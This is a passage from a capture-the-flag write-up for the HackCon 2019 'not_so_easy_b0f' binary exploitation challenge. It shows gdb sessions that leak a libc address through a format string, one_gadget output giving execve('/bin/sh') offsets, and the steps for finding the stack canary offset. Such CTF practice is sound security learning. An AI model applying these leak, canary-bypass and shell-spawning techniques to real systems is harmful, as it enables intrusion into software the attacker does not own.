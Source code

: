 Seems easy enough, first lets quickly find the offset of one of these leaked addresses from libc. I do the following.

1. Open the binary in gdb, run it and type in `%3$lx` in the first prompt.
2. Press CTRL+C, use `vmmap` to find the libc base address.
3. Calculate the difference between the leaked address and the base address.

```sh
gef➤  run
Starting program: /ctf/hackcon2019/pwn/not_so_easy_b0f/b0f
Enter name : %3$lx
Hello
7ffff7b042c0
Enter sentence : ^C
Program received signal SIGINT, Interrupt.

gef➤  vmmap
Start              End                Offset             Perm Path
....
0x00007ffff7a0d000  0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000  0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000  0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000  0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
....

gef➤  p 0x7ffff7b042c0 - 0x00007ffff7a0d000
$1 = 0xf72c0
```

Okay so we have a way to get the libc base address. I also use the `one_gadget` tool created by david942j found [here](https://github.com/david942j/one_gadget), to find the one gadget in the `libc.so.6` file.
```sh
vagrant@ubuntu-xenial:/ctf/hackcon2019/pwn/not_so_easy_b0f$ one_gadget libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

In our case (as we will find out), the first one gadget offset works just fine.

Now, we need to find out whether our stack canary is at offset 11 or 19. This is also done through gdb. I simply break at the `xor rcx,QWORD PTR fs:0x28` instruction at `main+164`, as that is what checks to make sure the stack canary hasn't changed. Once we hit our breakpoint, we can view the value in the `rcx` register to find our stack canary. By checking both `%11$lx` and `%19$lx`, we verify that our stack canary is at offset 11.
